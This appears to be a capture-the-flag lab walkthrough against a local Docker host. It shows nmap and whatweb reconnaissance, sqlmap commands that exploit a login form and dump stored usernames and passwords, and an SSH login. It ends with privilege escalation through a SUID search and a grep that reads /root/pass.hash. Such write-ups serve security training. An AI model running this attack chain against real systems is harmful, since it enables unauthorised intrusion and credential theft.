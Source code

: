 ![image](https://github.com/user-attachments/assets/ca24b927-fd3b-4463-bd1f-83ff8f8ae5d6)
```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/15d9448f-ad52-44d6-b445-0e4cc1708e33)

```bash
whatweb 172.17.0.2
```
![image](https://github.com/user-attachments/assets/0b0201fe-2c6f-4987-8e17-c8c4ff88f0db)

## **We already have some information but in the meantime we will investigate the website**
![image](https://github.com/user-attachments/assets/cbd3cfd0-b9ef-4c4a-b22d-0abac22d0c00)
![image](https://github.com/user-attachments/assets/56104336-5156-430b-8376-de3b4db288b8)

## **As we can see in the web we have a place where we can log in so all these data must be stored in a database.**
```bash
sqlmap -u http://172.17.0.2/login.html --forms --dbs -batch
```
![image](https://github.com/user-attachments/assets/f25c86f5-d75b-4c33-a1c9-9d7bced7a6ce)

## **We are interested in the content of the user database.**
```bash
sqlmap -u http://172.17.0.2/login.html --forms  -D users --tables -batch
```
![image](https://github.com/user-attachments/assets/6dbbbe24-164e-4c8b-9bda-07feb9c2938c)

## **We need to know the content of that table.**
```bash
sqlmap -u http://172.17.0.2/login.html --forms  -D users -T usuarios -columns -batch
```
![image](https://github.com/user-attachments/assets/6ade3889-fc78-41f0-ae35-4876c3bc94a6)

## **We will list the contents of each column as follows.**
```bash
sqlmap -u http://172.17.0.2/login.html --forms  -D users -T usuarios -C id,username,password --dump -batch
```
![image](https://github.com/user-attachments/assets/946d0711-88ad-4ce2-8d7b-b42f5765b8fc)

## **we finally got users and passwords, now we will connect via SSH**
```bash
ssh pepe@172.17.0.2
```
![image](https://github.com/user-attachments/assets/99b395a2-193c-48e9-8403-c3dbdac6e608)

## **We will elevate privileges**
```bash
find / -perm -4000 2>/dev/null
```
![image](https://github.com/user-attachments/assets/166a94c8-dd87-4bb2-8f18-e9d9134046d1)
```bash
ls /root
```
![image](https://github.com/user-attachments/assets/559d7f0b-0c2f-400c-bb35-8789efee7c87)
```bash
grep '' /root/pass.hash
```
![image](https://github.com/user-attachments/assets/91754733-2dda-4069-8062-a4e4b1777de1)
![image](https://github.com/user-attachments/assets/dd5e6840-3e32-4538-99da-c8664f51ec75)
```bash
su root
```
![image](https://github.com/user-attachments/assets/9f181d0c-3a5c-4b73-a218-470f2a390409)
